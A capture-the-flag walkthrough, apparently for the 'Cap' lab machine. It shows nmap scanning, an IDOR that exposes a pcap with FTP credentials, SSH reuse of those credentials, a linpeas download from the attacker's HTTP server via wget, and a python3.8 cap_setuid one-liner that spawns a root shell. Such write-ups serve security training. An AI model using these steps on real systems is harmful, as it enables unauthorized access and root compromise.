# Cap      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.






Here are the descriptions of the open ports shown in the screenshots:

### **21/tcp (FTP)**
The **FTP** service running on this port uses **vsftpd 3.0.3**. This service can be used for transferring files. It may allow anonymous login or require credentials for access. It’s worth checking if anonymous access is enabled or if there are weak credentials.

### **22/tcp (SSH)**
An **OpenSSH** service is running, version 8.2p1 on Ubuntu. This service is used for secure remote login. The presence of SSH keys indicates that this service likely requires proper authentication, typically via key-based access. Further enumeration can include testing for weak or default SSH credentials.

### **80/tcp (HTTP)**
The server is running a web application served by **gunicorn**. The web interface is identified as a **Security Dashboard**, accessible over HTTP. A closer inspection of the content may reveal vulnerabilities or sensitive information. Exploring the website further or using tools like **Nikto** for web vulnerability scanning could provide insights into potential exploits.

### IDOR

When I saw open `http` I did not hesitate. I pasted `http://{target ip}/` to the browser.



I started searching the dashboard.

`IP Config` section shows the output of `ifconfig`.



`Network STatus` section show some logs.



But the most interesting section is **Security Snapshot**.



Clicking on `Download` gives us a packet capture file. We can examine it by **WireShark**.



We don't see anything interesting as the capture just contains `HTTP traffic` from us.

I downloaded it for a test, but what caught my eye earlier was the way the **URL** for downloading this file was constructed.


Each capture is stored under `/data/<id>`, where `<id>` increments with each capture. This means there could be packet captures from other users before us.

This type of vulnerability is called **Insecure Direct Object Reference (IDOR)**, which allows a user to directly access data that belongs to someone else.

After checking a few captures I found interesting data in `/data/0` one.

To download it go to:

```
http://{target ip}/data/0
```



### WireShark

Open `0.pcap` with WireShark.



We can see `FTP` traffic is here. It looks very interesting.

Mark one of the **FTP** packages then go with `Right click -> Follow -> TCP stream`.

You should see this:



It is a full log of an `FTP` session. The client successfully logs into the server with the username `nathan` and the password `Buck3tH4TF0RM3!`.

Then he/she tries a directory listing but fails to download `notes.txt`. 

### FTP

Since we have user `credentials`, there's nothing left to do but log in the **FTP** using them.

Type:

```
ftp {target ip}
```

and provide the credentials.

```
nathan:Buck3tH4TF0RM3!
```



### Get the user flag

The `user` flag is there, let's just `get` it.

```
get user.txt
```



### SSH

We have nothing more to look for here. From **Nmap** scan we know that **SSH** is open.

Let's log in to the **SSH** with the same credentials.

Type:

```
ssh nathan@{target ip}
```

and provide the password.



We are in.

### Privilege Escalation

Since we already have `user`'s flag we have to escalate our privileges.

This is what my search looked like:

```
id
```

```
sudo -l
```

```
find / -group nathan -type f -perm -040 2>/dev/null
```



I couldn't find anything, so only reasonable move was to use **linpeas**.

Go to the

```
https://github.com/peass-ng/PEASS-ng/releases/tag/20241003-ae31e908
```

and just click on **linpeas.sh** to download it.



Now, let's transfer it to the **Cap(SSH)** shell.

#### **Disclaimer**

*Remember to do all the operations from the same directory from which you have connected to the **SSH**. It is absolutely necessary. The linpeas.sh file also should be in this exact path*

We have to set up **Python HTTP server**:

```
python -m http.server 80
```



In the **Cap(SSH)** shell, type:

```
wget http://{your tun0 ip}:80/linpeas.sh
```



We have it, server confirms it.



Let's give the script all permissions.

```
chmod +x linpeas.sh
```

and run it:

```
./linpeas.sh
```



We receive long, long output as always but the most important information is this one:



By using `/usr/bin/python3.8 = cap_setuid, cap_net_bind_service+eip` we can leverage the `cap_setuid` capability to escalate privileges. This allows the `Python` binary to set the `user ID (UID)` of the process.

Let's do it. Type:

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This Python command will:

1. Use `os.setuid(0)` to change the process's user ID to `0` (the **root** user).
2. Spawn a root shell (`/bin/bash`).



We are `root`.

### Get the root flag

`Root` flag is in the `/root` directory.



### Paste the flags

